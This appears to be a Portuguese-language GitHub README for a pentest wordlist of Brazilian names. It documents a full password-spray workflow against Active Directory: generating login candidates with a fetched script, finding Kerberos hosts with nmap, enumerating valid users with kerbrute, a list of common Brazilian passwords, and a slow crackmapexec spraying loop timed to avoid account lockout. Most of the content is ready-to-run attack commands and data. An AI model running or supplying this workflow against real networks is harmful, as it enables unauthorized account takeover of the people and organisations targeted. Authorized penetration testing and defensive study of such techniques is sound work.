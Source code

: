 # Wordlist de nomes brasileiros  
> Este projeto surgiu no meio de um pentest aonde eu tinha somente acesso ao protocolo kerberos e o smb e precisava adivinhar logins de rede para realizar uma ataque de passwordspray.  

## Arquivos    
#### first-name-pt-br.txt:  
Contém uma lista de primeiros nomes brasileiros como por exemplo ana, carlos, henrique, etc...  

#### second-name-pt-br.txt:  
Este contém uma lista de sobrenomes brasileiros como carvalho, silva, souza, etc...  

#### name_and_surname.txt:  
Este arquivo contém uma mesclagem de primeiro nome e sobrenome.  

#### wordlist_login_pt_br.txt:  
Uma wordlist criada com o script python ```namemash.py``` para utilizar como teste para adivinhar logins validos.  

#### namemash.py:  
Script python para gerar padrões de login de rede.  

## Gerando logins:  
```bash
Smaug@erebor:~$ wget https://gist.githubusercontent.com/Outs1d3r-Net/4d9d674ce2885e282409fc2253f5df6b/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
Smaug@erebor:~$ for s in $(cat second-name-pt-br.txt);do for p in $(cat first-name-pt-br.txt);do echo "$p $s" >> name.txt;done;done
Smaug@erebor:~$ cat name.txt| sort | uniq > name_and_surname.txt; rm name.txt
Smaug@erebor:~$ python3 namemash.py name_and_surname.txt >> wordlist_login_pt_br.txt
```  
## Descobrindo logins validos:  
```
Smaug@erebor:~$ nmap -p88 192.168.0.1/24 --open
Smaug@erebor:~$ git clone https://github.com/ropnop/kerbrute; cd kerbrute
Smaug@erebor:~$ go build .
Smaug@erebor:~$ ./kerbrute userenum -d AD_NAME.LOCAL wordlist_login_pt_br.txt
```
#  
![evidence](img/img.png)  
#  
#### pass.txt:  
```
Mudar@123
P@ssw0rd
Pa55w.rd
Microsoft.123
Musc1234
Brasil@2020
Mudar123@
Busca123
Aval1234
Auto1234
Brasil@2019
Mudar123*
Bela@123
Senha123@
Mudar123
Email@123
Cambiar123@
Brasil123@
Mudar321@
q1w2e3R$
Brasil@1234
abcd=1234
Deus@123
Brasil@123
Brasil123
Cambiar@123
123qwe...
Mudar1234!
Jesus@123
Jesus@10
Senha231
Maria@123
Brasil@321
Password@2022
Brasil@1991
```  
## Ataque de LOW-AND-SLOW PasswordSpray:  
```bash
Smaug@erebor:~$ for p in $(cat pass.txt);do crackmapexec smb 192.168.0.10 -u valid_users.txt -p "$p" -d AD_NAME.LOCAL; sleep 400;done
```
  
:frog:  
